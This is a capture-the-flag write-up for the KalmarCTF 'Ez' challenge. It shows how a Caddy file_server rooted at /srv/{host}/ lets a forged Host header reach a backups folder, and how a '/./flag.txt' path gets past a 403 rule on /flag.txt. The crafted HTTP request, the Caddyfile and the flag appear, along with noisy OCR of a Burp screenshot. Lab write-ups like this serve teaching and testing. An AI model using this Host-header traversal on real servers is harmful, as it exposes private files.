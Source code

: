 # Ez ⛳
> Heard 'bout that new 🏌️-webserver? Apparently HTTPS just works(!), but seems like someone managed to screw up the setup, woops. The flag.txt is deleted until I figure out that HTTPS and PHP stuff #hacker-proof

## About the Challenge
We are given a website and the source code (You can get the source code [here](source-dummy-flag.zip))

## How to Solve?
You will notice there are 3 subdomains when you open the zip file


[Image extracted text: Vame
www caddy chal-kalmarc tf
static caddy chal-kalmarctf
php caddy chal-kalmarctf
Caddyfile]


And inside the `php.caddy.chal-kalmarc.tf` folder there is a fake flag. So at first I thought we need request to `//php.caddy.chal-kalmarc.tf/flag.txt` to get the flag, but inside `docker-compose` file the author of the chall decided to remove the flag but there is a `backups` folder

```bash
apk add --update openssl nss-tools && rm -rf /var/cache/apk/ && openssl req -x509 -batch -newkey rsa:2048 -nodes -keyout /etc/ssl/private/caddy.key -days 365 -out /etc/ssl/certs/caddy.pem -subj '/C=DK/O=Kalmarunionen/CN=*.caddy.chal-kalmarc.tf' && mkdir -p backups/ && cp -r *.caddy.chal-kalmarc.tf backups/ && rm php.caddy.chal-kalmarc.tf/flag.txt && sleep 1 && caddy run
```

So, we need to access the backup folder to get the flag, but how? There is a misconfiguration on the `Caddy` configuration. The configuration will look like this

```
{
    admin off
    local_certs  # Let's not spam Let's Encrypt
}

caddy.chal-kalmarc.tf {
    redir https://www.caddy.chal-kalmarc.tf
}

#php.caddy.chal-kalmarc.tf {
#    php_fastcgi localhost:9000
#}

flag.caddy.chal-kalmarc.tf {
    respond 418
}

*.caddy.chal-kalmarc.tf {
    encode zstd gzip
    log {
        output stderr
        level DEBUG
    }

    # block accidental exposure of flags:
    respond /flag.txt 403

    tls /etc/ssl/certs/caddy.pem /etc/ssl/private/caddy.key {
        on_demand
    }

    file_server {
        root /srv/{host}/
    }
}
```

The misconfiguration is on the `file_server` directive
```
file_server {
    root /srv/{host}/
}
```

For example if we access `https://php.caddy.chal-kalmarc.tf` caddy will serve any file inside `/srv/php.caddy.chal-kalmarc.tf/` folder, so to access the backup the HTTP request will be like this

```
GET /test HTTP/1.1
Host: backups/php.caddy.chal-kalmarc.tf
Accept-Encoding: gzip, deflate
...
```

And then to access the flag, we can't access to `/flag.txt` because there is a restriction on the `caddy` configuration

```
respond /flag.txt 403
```

To bypass this restriction, we can send the HTTP request like this


[Image extracted text: Burp
Project
Intruder
Repeater
Window
Help
Param Miner
Turbo Intruder
Burp Suite Community Edition V2023.1,3
Temporary Project
X
Dashboard
Target
Proxy
Intruder
Repeater
Sequencer
Decoder
Comparer
Logger
Extensions
Settings
Semd
cancel
Target: https:/ Iphp caddy chal-kalmarc tf
HTTP/2
Inspector
1
Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
Request attributes
GET / . / flag-ext
HTTP / 2
HTTP / =
200  OK
2 Host
backups / php
caddy-chal-kalnarc
tf
Content
Type
text /plain; charsetzut f-8
Request query parameters
User-Agent
Hozilla/ 5
(Vindous
IT
10.0;
Vin64;
{64;
17:109
Geclo/:O100101
Ecag:
rcyfltls
Firefor/1l0
Last
Hodified:
Fri,
Har
20_3
17- 08:17
GHT
Aecept
Server
Caddy
Request body parameters
cext / html
applicat
on / xhthltxul , applicat
on/ <ul
F0
image/ avif
1nage /vebp
1*{9=0
Content
Lengch:
Accept-Language
en-US
en;
Dat e
Sun ,
05
Har
2023
13.15:26
GHT
1ccept
Encoding:
gzip ,
deflace
Request cookies
Upgrade
Insecur
Requests:
kalnar (thls-=4s-ExOd4ys-vh3n-C4ddy-=2.4}
Sec-
etch
Dest
docuent
Sec--
etch-Hode
navigate
Request headers
Sec--
etch-Sice:
none
Sec-
etch-User:
Response headers
Te;
crailers
Seorch;
matches
~eorcne
matches
Done
235 bytes
234 millis
8:15 PM
Search
c)
3/5/2023
4-0]


```
kalmar{th1s-w4s-2x0d4ys-wh3n-C4ddy==2.4}
```
